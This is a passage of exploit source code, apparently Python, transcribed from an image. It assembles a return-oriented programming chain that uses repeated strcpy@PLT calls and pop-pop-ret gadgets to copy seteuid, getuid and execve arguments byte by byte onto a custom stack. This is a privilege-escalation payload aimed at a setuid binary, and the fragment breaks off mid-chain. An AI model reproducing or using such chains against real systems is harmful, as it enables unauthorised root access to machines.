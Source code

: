 ```
buf += conv(cust_esp)
buf += conv(seteuid_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct1)
#Below stack frames are for strcpy (to copy getuid@PLT to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct1)
#Below stack frames are for strcpy (to copy seteuid arg  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
#Below stack frames are for strcpy (to copy execve_arg1  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
```
